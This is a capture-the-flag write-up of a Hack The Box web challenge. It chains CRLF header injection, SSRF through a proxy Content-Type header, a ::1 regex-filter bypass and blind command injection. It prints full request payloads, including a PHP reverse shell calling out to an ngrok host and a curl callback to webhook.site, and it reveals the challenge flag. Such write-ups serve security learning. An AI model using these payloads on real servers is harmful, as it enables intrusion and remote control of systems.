








## Challenge Description:

> Welcome, Brave Hero of Eldoria. You’ve entered a domain controlled by the forces of Malakar, the Dark Ruler of Eldoria. This is no place for the faint of heart. Proceed with caution: The systems here are heavily guarded, and one misstep could alert Malakar’s sentinels. But if you’re brave—or foolish—enough to exploit these defenses, you might just find a way to weaken his hold on this world. Choose your path carefully: Your actions here could bring hope to Eldoria… or doom us all.


## Overview:


This is a complex white-box Web CTF challenge involve exploiting multiple chaining vulnerabilities and bypassing filters in place.

Seriously, that challenge was on a whole new level — **double injection**, **proxy bypass**, **weird header tricks**, **blind execution**, and to top it all off, it had **zero output feedback** unless you built the exact right payload, and even setting up an external shell. That’s **next-level stuff** — way beyond the average CTF web challenge.

Can't wait, let's dive in ;)


## Step-by-Step Solution:


### 1. Recon and Understanding the Application:

In CTFs it’s often about details. This is a white box testing web challenge. In this kind of challenges, I like to have a quick look at the source code and stuff around it, so that I got a good understanding of how does this web application work, and what kinds of possible vulnerabilities out there.

Another thing to look at is to look at the software stack. Is it a standard setup, is there something out of the ordinary? Something looking strange? Is it using technologies you usually don’t see, is it using thing differently from the common sense? Is there software components installed additionally that are not really needed for the thing to work? If so, then it’s usually needed for an exploit path.

tl;dr: In CTFs it’s often not only the source code for the challenge and the obvious but also stuff around it.

After a quick of review the files and directories there, I knew that the vulnerability that we are gonna exploit is command injection. Yeah command injection!

**attack-domain** and **attack-ip** under **/src/cgi-bin** directory where both seem to be vulnerable to command injection!

The application where trying to ping the ip or domain specified by the user as following:

**attack-ip:**


**attack-domain:**



It’s clear that **both attack-domain and attack-ip are vulnerable to command injection**. If we input something like 127.0.0.1; whoami into the target parameter, the resulting command executed by the server becomes: `ping -c 1 127.0.0.1; whoami` and boom 🔥 We should have command injection.


### 2. Observing Filters:

But this looks too easy isn't?  in the first look yeah, we could say that we can exploit command injection vulnerabilities. Which is not that much difficult. But while I was reviewing the code I found two issues:

###### **First Issue:**

It is obvious that **attack-domain** has strong _filtering_ on the target. 
- `attack-domain` checks if the `target` is a valid domain using regex:
```
re.match(r'^(?!-)[a-zA-Z0-9-]{1,63}(?<!-)\.[a-zA-Z]{2,63}$', target)
```
- This blocks any attempt to directly inject `127.0.0.1`, URLs, or non-domain-looking strings including command injection attempts.
- It only allows a **single-level domain**, like example.com.

So it looks like it is impossible to exploit command injection in **attack-domain**


###### **Second Issue:**

While **attack-domain** has a strong filter, the **attack-ip** hasn't any filter and once we could inject our command in the target, it must be executed directly. Sounds great isn't? Guess what? We have another problem! While I was reviewing the source code of the challenge. I noticed another annoying thing. **attack-ip can only be accessed by localhost!** you need to be localhost in order to be able to access it and then inject your command.




Things got complicated isn't? we can **access attack-domain but it has strong filter** and we cannot inject our payload. On the other hand, **attack-ip has no filter, but It must be accessed by the localhost** which is the server itself.


### 3. Validating the Theory:

Let's have a look to the website.




As you can see, we have access to attack-domain only, let's try to inject our payload, and see what happen. 
We will use Burp Suite of course.




As I thought, we have a strong filter in attack-domain. And it is impossible to bypass it.


Now we want to prove that what we’ve concluded so far is correct.


Let’s start by trying to directly access `attack-ip` from our browser or any HTTP client, for example:

```
GET /cgi-bin/attack-ip?target=127.0.0.1;id&name=glitch
```

We will get a **403 Forbidden** or **access denied**, confirming that we can’t access it unless we are the localhost.

Now let’s try something invalid in `attack-domain`, like:

```
GET /cgi-bin/attack-domain?target=127.0.0.1&name=glitch
```

And of course, we will get:

```
?error=Hey glitch, watch it!
```

Because the regex filter won’t allow us to pass `127.0.0.1` as a domain.

✅ This proves that:

- We can **only reach attack-domain**, but we **can’t inject** into it directly.
    
- We **can inject into attack-ip**, but **can’t reach it externally**.


### 3. When the Server Becomes the Assassin:

It's complicated isn't?
I've spent additional one hour trying to bypass the filter in attack-domain or access the attack-ip by manipulating the http headers in order to make my request looks like it comes from the localhost, but nothing worked!

I knew from the start—attack-ip wasn’t just sitting there by accident. It screamed “exploit me.” And attack-domain? Yeah, that wasn’t for decoration either. The challenge clearly wanted us to use both, like two pieces of a dark puzzle waiting to be connected.

But here’s the twist: attack-ip was locked down, only accessible from localhost. Frustrating? Yes. Hopeless? Not even close.

Then it hit me—what if I became the server? What if I could make the server attack itself?

Boom. That’s it. SSRF. The moment that clicked, everything made sense.

If I could use attack-domain to trick the server into sending a request to itself, targeting attack-ip with a malicious payload… well, that’d be game over for Malakar’s defenses.

The weapon? A forged request. The assassin? The server itself. All I had to do was whisper the right payload.


### 4. Finding the SSRF Vector:

Now that I knew **what** needed to be done — it was time to figure out **how** to do it.

I had the setup:
• attack-domain lets me send a request _from the server itself._
• attack-ip is where the command injection lives — but it’s **localhost-only.**

So I had to **abuse SSRF** via attack-domain to hit attack-ip _internally_ — but with a payload nasty enough to punch through.

The catch?

attack-domain was filtered like Fort Knox — the target= parameter only allowed domains like example.com. That regex was blocking everything useful.

But what if I didn’t use target at all?

💡 _What if I injected through the_ _name=_ _parameter instead?_


### 5. Crafting the Killer Payload:

Im not exaggerating when I say this part consumed **hours** of my life.

This was the most difficult part, I've spent more than 5 hours in order to be able to craft this payload, the payload that exploited multiple chaining vulnerabilities **double injection**, **proxy bypass**, **weird header tricks**, **blind execution**, and to top it all off, it had **zero output feedback** all in one shot.


I had to pull off **double injection** — one to inject into attack-domain, and another inside it to reach and exploit attack-ip. But guess what? It didn’t stop there.

The payload had to:
• Inject through a parameter **not meant for URLs** (name)
• Trick the server into issuing a **request to itself** (SSRF)
• Bypass the strict **regex filters** on the target parameter
• Use **CRLF injection** to forge headers and inject a second request
• Leverage **proxy-style headers** to force the server to connect to 127.0.0.1
• Deliver a **command injection** payload to attack-ip
• Execute **blindly** (no output returned!) – meaning I needed a **reverse shell** or webhook to verify it

Each attempt either got blocked, sanitized, or just… failed. I even got 400s, 302s, 408s—like I was talking to a grumpy wizard.


**After hours of trial and error**, I crafted the following initial payload:

`GET /cgi-bin/attack-domain?target=Glitch&name=a1%0d%0aLocation:+/azx%0d%0aContent-type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=127.0.0.1%$(id)%26name=%0d%0a%0d%0a HTTP/1.1`

but I got the following response:

```
HTTP/1.1 302 Found
Date: Mon, 24 Mar 2025 00:41:51 GMT
Server: Apache/2.4.54 (Debian)
Location: ../?error=Hey /var/www/html/azx, watch it!
Content-Length: 301
Content-Type: text/html; charset=iso-8859-1
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
```

Which indicates that I did something wrong in my payload, and yeah I found what was wrong with my payload, I should test ::1, instead of 127.0.0.1

Here’s the kicker: our forged request via CRLF (in name) **injects a whole new request**, but our target=127.0.0.1 up front **breaks the outer logic** — the outer script sees 127.0.0.1, flags it as **invalid**, and exits early — **before** our **injected inner request is even reached or parsed**.

**Why ::1 Works**

  ::1 is the **IPv6 loopback address** (equivalent to 127.0.0.1 in IPv4), but guess what? It **bypasses** that domain regex filter because:
1. It has **no dots** like 127.0.0.1 (which breaks the a.b TLD pattern).
2. It looks more “domain-like” when obfuscated (especially when buried in a forged Content-Type header).
3. It **still resolves to localhost internally**, so the SSRF and command injection land exactly where they should.


So, I've updated my payload:

```
GET /cgi-bin/attack-domain?target=Glitch&name=a1%0d%0aLocation:+/azx%0d%0aContent-type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%$(id)%26name=%0d%0a%0d%0a HTTP/1.1
```

and guess what?!
It worked, we didn't get an error nor bad request in the response.
I got the following response:
`<p>The document has moved <a href="../?result=Succesfully attacked ::1%$(id)!">here</a>`

This indicates that our target has been attacked successfully and we were able to inject our command in the target. Which was `id`. But why didn't we get the feedback of our injected command? yeah it is a blind command injection. We couldn't see the output of our command. This makes the attack even more complicated.


###### **Next step?**
We should verify if our command being executed, so I've decided to use **webhook.site** to see if I get some response from the the server that were I was targeting. So I've injected the following command: **$(curl%2bhttps://webhook.site/4a548bab-700e-4dc2-8f47-0949f09aaecd**) to ensure if my command being executed, but guess what? I got an error. Yeah my payload has a **dot**, which causes this error. This is very annoying. But I've assumed that my commands are working. So, I've decided to get a reverse shell directly.

###### **The problem?**
We don't have VPN connection to the target, so we cannot get a reverse shell directly. Lucky, we can use **Ngrok**  to receive a **reverse shell** even if you’re not on the same network. This tool creates a **public-facing tunnel** to our machine — allowing the target (the server) to connect back to us.


###### **Setting-up Ngrok to get reverse shell**






And we got the following window:



So we are gonna use the following host: **0.tcp.in.ngrok.io**, and the following port: **4040** as the ip, and port to get a reverse shell to our machine.


###### **Crafting the right shell:**
Now came the final boss fight — crafting a **reverse shell** payload that wouldn’t get mangled by filters, wouldn’t trigger a 400 Bad Request, and could be injected via SSRF + command injection into a shell that can escape the sandbox.

I’m not gonna lie — I spent hours testing all kinds of reverse shells: bash, nc, python, PHP… but every time, I hit some kind of wall.

Some were filtered. Some had special characters that broke the payload. Some were too long. Some needed binaries that weren't even present on the server.

Finally, I landed on **PHP** with a **proxy header double URL-encoded trick**. Here’s the winning payload:

```
GET /cgi-bin/attack-domain?target=Glitch&name=a%0d%0aLocation:+/a%0d%0aContent-Type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%$(php%2b-r%2b'$sock%253dfsockopen(%220.tcp.in.ngrok.io%22,4040)%253b%60bash%2b<%25263%2b>%25263%2b2>%25263`%253b')%26name=%0d%0a%0d%0a HTTP/1.1
```

Let’s break it down:

- We forged a second HTTP request inside the `name=` parameter using **CRLF injection**.
- We set the `Content-Type:` header to act as a **proxy request** to the localhost-only `attack-ip` endpoint.
- Then, we injected a **command injection payload** in the `target=` param of `attack-ip`, which uses `php -r` to open a socket to my **Ngrok listener** and pipe `bash` into it.


Once the payload was sent, I hit **Send** from Burp...
⏳ Waited a few seconds...
💥 Boom — my terminal lit up:
```
connection from 94.237.59.98:46058
bash: no job control in this shell
$ whoami
www-data
```

And just like that — we were in. We popped a shell on Malakar’s fortress.

The flag? Sitting right there:

Game over.


### **🔚 Final Thoughts: The Art of Exploiting Shadows**


This wasn’t just a CTF challenge — it was a battle of wit, patience, and obsession. _Cyber Attack_ was a **masterclass in modern web exploitation** — an intricate blend of:

• SSRF,
• Blind Command Injection,
• Header Forgery via CRLF Injection,
• Proxy Misuse,
• Shell Evasion,
• Filter Bypass,
• And ultimately, creative persistence.


At no point was this challenge about simply finding a bug. It was about **chaining** bugs, **bending protocols**, and **speaking the language of servers** in just the right way. It demanded an attacker who could think like the system, reason through layered defenses, and strike precisely — even without feedback.


From identifying the injection surface, weaponizing a CRLF-based SSRF, bypassing filters with ::1, crafting proxy-aware headers, encoding a shell in PHP, and catching it with Ngrok — this was **the most advanced and rewarding web challenge** I’ve ever faced.


And the flag? HTB{h4ndl1n6_m4l4k4r5_f0rc35} — a symbol that **even in the darkest systems**, a clever hacker can still shine through.

  
Thanks for reading — until next time, happy hacking! 💻🚀


**Connect with me:**
🧠 [X (Twitter) - @Hacker09737393](https://x.com/Hacker09737393)
